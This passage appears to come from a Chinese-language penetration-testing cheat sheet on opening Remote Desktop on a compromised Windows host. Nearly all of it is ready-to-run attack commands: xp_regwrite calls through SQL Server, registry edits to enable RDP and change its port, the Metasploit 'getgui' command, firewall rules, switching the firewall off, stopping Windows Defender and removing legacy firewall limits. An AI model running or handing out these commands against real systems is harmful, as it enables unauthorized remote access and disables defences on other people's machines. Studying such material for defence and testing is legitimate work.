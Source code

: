     2. 查询3389远程桌面端口 : `exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber' `

    3. 开启3389远程桌面端口（0：ON、1：OFF）: `exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;`

- reg 开启
    ```
    Windows Registry Editor Version 5.00
    [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
    "fDenyTSConnections"=dword:00000000
    [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
    "PortNumber"=dword:00000d3d
    ```
    ```
    regedit /s a.reg
    ```

- msf
    ```
    run getgui -e
    ```

- 更改终端端口为 2008(十六进制为:0x7d8)

    1. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`
    2. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

- 查看 RDP 服务端口是否更改
    ```
    REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  /*出来的结果是 16 进制
    ```

- 允许 3389 端口
    ```
    netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
    ```

- 关闭防火墙
    ```
    netsh advfirewall set allprofiles state off
    ```

- 关闭Denfnder
    ```
    net stop windefend
    ```

- 取消 xp&2003 系统防火墙对终端服务的限制及 IP 连接的限制:
    ```
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f
    ```

---